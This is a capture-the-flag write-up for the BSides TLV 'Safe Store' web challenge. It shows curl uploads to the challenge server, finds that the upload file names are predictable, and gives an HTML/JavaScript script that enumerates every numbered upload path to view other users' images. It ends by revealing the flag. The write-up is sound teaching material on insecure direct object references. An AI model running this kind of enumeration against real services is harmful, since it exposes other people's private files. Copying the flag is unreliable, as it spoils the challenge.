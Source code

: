 # Safe Store

* Category: Web
* 150 Points

### Description

> After chasing an adversary, he decided to put the flag inside this safestore app designed by fellow hackers. Can you find the hidden flag?

### Solution

The attached website is an image upload service:

> SafeStore - Free Image Upload Online
>
> Upload your image to our service and get a link to share with rest of the world!\
> Free of charge. Images kept on our servers for 7 days.

Let's try to upload a few images:

```console
┌──(user@kali)-[/media/sf_CTFs/bsides/SafeStore]
└─$ curl -X POST https://bstlv24-safe-store.chals.io/upload -F "upload=@out-001.gif"
{"message":"File uploaded!","link":"uploads/app_pub_9126.gif"}

┌──(user@kali)-[/media/sf_CTFs/bsides/SafeStore]
└─$ curl -X POST https://bstlv24-safe-store.chals.io/upload -F "upload=@out-001.gif"
{"message":"File uploaded!","link":"uploads/app_pub_9826.gif"}

┌──(user@kali)-[/media/sf_CTFs/bsides/SafeStore]
└─$ curl -X POST https://bstlv24-safe-store.chals.io/upload -F "upload=@out-001.gif"
{"message":"File uploaded!","link":"uploads/app_pub_1050.gif"}
```

In the response, we receive the path to the uploaded image. We can see that the path is\
relatively predictable, with the difference between paths only being the 4-digit number appended\
to the file name.

It should be very easy to just enumerate all server files using a similar template and\
trying to view other users images. We can do this with a simple HTML file:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Image Leaker</title>
</head>
<body>
    <script>
        function loadImages() {
            for (let i = 1000; i <= 9999; i++) {
                const img = document.createElement('img');
                img.src = `https://bstlv24-safe-store.chals.io/uploads/app_pub_${i}.gif`;
                img.onerror = () => {
                    img.style.display = 'none';
                };
                document.body.appendChild(img);
            }
        }
        window.onload = loadImages;
    </script>
</body>
</html>
```

Browsing through the images (luckily, before evil users might have uploaded false flags), we\
find the flag hidden under `app_pub_8745.gif`: `BeSidesTLV{Guess4bleNam3sIsCla22ic}`.
